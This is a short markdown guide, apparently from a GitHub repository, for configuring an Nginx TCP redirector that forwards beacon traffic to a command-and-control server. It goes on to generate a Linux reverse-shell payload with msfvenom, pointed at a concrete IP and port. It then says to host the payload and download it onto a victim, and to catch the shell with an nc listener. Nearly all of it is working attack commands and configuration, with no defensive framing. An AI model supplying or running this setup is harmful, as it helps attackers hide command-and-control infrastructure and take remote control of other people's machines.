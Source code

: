 # Setting up Nginx for TCP proxy 

1. First off this shit is stupid, nginx only knows how to deal with HTTP traffig and beacon traffic can sometimes be encrypted by defualt making it hard for Nginx to deal with. There for we are going to have to not only set up our `proxy_reverse` but also configure TCP on the server if we want COMs to work all the way with out the use of ssl certs
2. To start lests install Nginx
    ```bash
    sudo apt install nginx 
    ```
3. Now lets modify our config file which might no exist 
    ```bash 
    sudo vim /etc/nginx/conf.d/lp_proxy.conf
    ```
4. Paste the follwing in `lp_proxy.conf`
    ```nginx
    server {
        listen 80;
        listen [::]:80;

        server_name <serverIP-OR-ServerDNSname>;

        location / {
            proxy_pass http://<parrot-c2-ip>;
        }
    }
    ```
4. Now lets add the TCP rules to allow us to handle the beacons
    ```bash
    sudo vim /etc/nginx/nginx.conf
    ```
5. Paste the following Bellow `http {...}`
    ```nginx
    stream {
        log_format posh '$remote_addr [$time_local] '
        '$protocol $status $bytes_sent $bytes_received '
        'session_time "$upstream_addr" '
        '"$upstream_bytes_sent" "$upstream_bytes_received" "$upstream_connect _time"';
    
        server {
            listen 8080;

            proxy_pass http://<Parrot-IP>;

            access_log /var/log/nginx/tcp_access.log;
            error_log /var/log/nginx/tcp_error.log;

        }


    }
    ```
5. Now lets reload Nginx with the new conf figles 
    ```bash 
    sudo nginx -s reload
    ```
    or 
    ```bash 
    sudo systemctl restart nginx.service
    ```
6. From here we can now create a msfvenom shell or poshc2 with the correct ports set in the TCP section in the example we have `8080` 
    ```bash
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.178.132 LPORT=8080 -a x64 -f elf > yup.elf
    ```
    > **NOTE:** Follow the same setup if you are using poshc2 for you bind port, probably 
7. Host your payload however and download on victim 
8. Now if you are running msfvenom start you `nc` listener to catch your beacon.
    ```bash
    sudo nc -lnvp
    ```
9.  tada you have a beacon shelly, fuck you.